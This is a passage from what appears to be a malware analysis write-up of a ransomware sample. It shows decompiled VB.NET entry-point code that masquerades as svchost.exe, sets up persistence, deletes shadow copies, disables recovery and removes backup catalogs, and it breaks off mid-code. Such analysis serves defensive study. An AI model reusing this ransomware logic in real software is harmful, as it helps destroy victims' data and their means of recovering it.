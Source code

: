 We also have a file named read_it.txt with a ransomware note. This file seems to be generated in every folder.

![information](/images/phobos/phobos-07.png)

We will now study the code

## Code Analyze

### The Entry Point

```vbnet
Private Shared processName As String = "svchost.exe"

Private Shared Sub Main(args As String())
	If Program.AlreadyRunning() Then
		Environment.[Exit](1)
	End If
	If Program.checkSleep Then
		Program.sleepOutOfTempFolder()
	End If
	If Program.checkAdminPrivilage Then
		Program.copyResistForAdmin(Program.processName)
	ElseIf Program.checkCopyRoaming Then
		Program.copyRoaming(Program.processName)
	End If
	If Program.checkStartupFolder Then
		Program.addLinkToStartup()
	End If
	Program.lookForDirectories()
	If Program.checkAdminPrivilage Then
		If Program.checkdeleteShadowCopies Then
			Program.deleteShadowCopies()
		End If
		If Program.checkdisableRecoveryMode Then
			Program.disableRecoveryMode()
		End If
		If Program.checkdeleteBackupCatalog Then
```